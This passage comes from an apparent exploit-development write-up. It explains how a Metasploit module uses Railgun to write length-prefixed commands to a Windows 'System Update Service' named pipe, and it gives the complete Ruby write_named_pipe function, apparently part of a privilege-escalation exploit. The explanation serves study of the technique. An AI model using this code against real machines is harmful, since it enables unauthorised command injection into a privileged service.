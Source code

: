 ### Named pipe communication
Communication with the named pipe of the System Update Service is also done via Railgun. We open
a valid File Handle via CreateFileA and write to it by using WriteFile. This is similar to a
normal Write Operation in Windows.

The Sevice Update Service actually performs two read requests to retrieve a command
* He first queries four bytes which must contain the length of the command as integer
* He then reads the command itself.

We have to keep care on that. To convert the Ruby Int Type into a native Integer, I used the
Array.pack method:

```
  [command.length].pack('l')
```

Here the complete code of the function:

```ruby
def write_named_pipe(pipe, command)
    invalid_handle_value = 0xFFFFFFFF

    r = session.railgun.kernel32.CreateFileA(pipe, 'GENERIC_READ | GENERIC_WRITE', 0x3, nil, 'OPEN_EXISTING', 'FILE_FLAG_WRITE_THROUGH | FILE_ATTRIBUTE_NORMAL', 0)
    handle = r['return']

    if handle == invalid_handle_value
      fail_with(Failure::NoTarget, "#{pipe} named pipe not found")
    else
      vprint_good("Opended #{pipe}! Proceeding...")
    end

    begin

      # First, write the string length as Int32 value
      w = client.railgun.kernel32.WriteFile(handle, [command.length].pack('l'), 4, 4, nil)

      if w['return'] == false
        print_error('The was an error writing to pipe, check permissions')
        return false
      end

      # Then we send the real command
      w = client.railgun.kernel32.WriteFile(handle, command, command.length, 4, nil)

      if w['return'] == false
        print_error('The was an error writing to pipe, check permissions')
        return false
      end
    ensure
      session.railgun.kernel32.CloseHandle(handle)
    end
    true
  end
```
